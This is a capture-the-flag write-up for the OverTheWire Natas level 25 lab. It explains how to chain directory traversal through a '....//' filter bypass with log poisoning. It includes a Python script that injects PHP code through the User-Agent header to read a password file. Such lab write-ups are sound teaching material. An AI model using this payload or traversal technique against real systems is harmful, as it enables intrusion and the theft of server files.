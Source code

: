 # natas25

This problem deals with a new concept.<br>
The Natas25 challenge involves exploiting two vulnerabilities: Directory Traversal and Log Poisoning.
1. **Directory Traversal:** This is a vulnerability that allows an attacker to read arbitrary files on the server's file system. In this challenge, the application includes a language file specified by the lang parameter in the response. By using a relative path like `....//....//....//....//....//....//var/www/natas/natas25/logs/natas25_`, we can escape from the current directory and read files from other directories.

2. **Log Poisoning:** This is a vulnerability that allows an attacker to inject malicious content into a system's log files. In this challenge, the application logs the user agent string of each request. By setting the user agent string to PHP code, we can inject this code into the log file. When the log file is included in the response, the server executes this code.

The solution to this challenge involves combining these two vulnerabilities.<br> 
- First, we inject PHP code into the user agent string that reads the password for the next level.
- Then, we use directory traversal to include the log file in the response. When the server includes the log file, it executes the injected PHP code, revealing the password for the next level.

You can either use python or Barpsuite for this. The below is the code you can use for python-
```python
import requests

# URL for the site
url = 'http://natas25.natas.labs.overthewire.org/'

auth = ('natas25', '<password>')  # replace with the actual password

# Create a session
session = requests.Session()
session.auth = auth

# Set the user agent to include PHP code
session.headers['User-Agent'] = '<?php echo file_get_contents("/etc/natas_webpass/natas26"); ?>'
session.get(url)

if 'PHPSESSID' not in session.cookies:
    # Manually set the PHPSESSID cookie
    session.cookies['PHPSESSID'] = '<cookie-value>'
# Make a GET request to the site with the lang parameter set to include the log file
response = session.get(url, params={'lang': '....//....//....//....//....//....//var/www/natas/natas25/logs/natas25_' + session.cookies['PHPSESSID'] + '.log'})

# Print the response
print(response.text)
```
We didnt use `/etc/natas_webpass/natas26` since the source code filters out the results and we are even given with what we can inject to get our password which is the above `var/...`. Also usually to get `/etc/passwd`, we do 5 `../` in sequence(just a general trend, it may also be different), but since we cant use `../` directly, we used `....//` which converts itself too `../` according to source code and we are done.
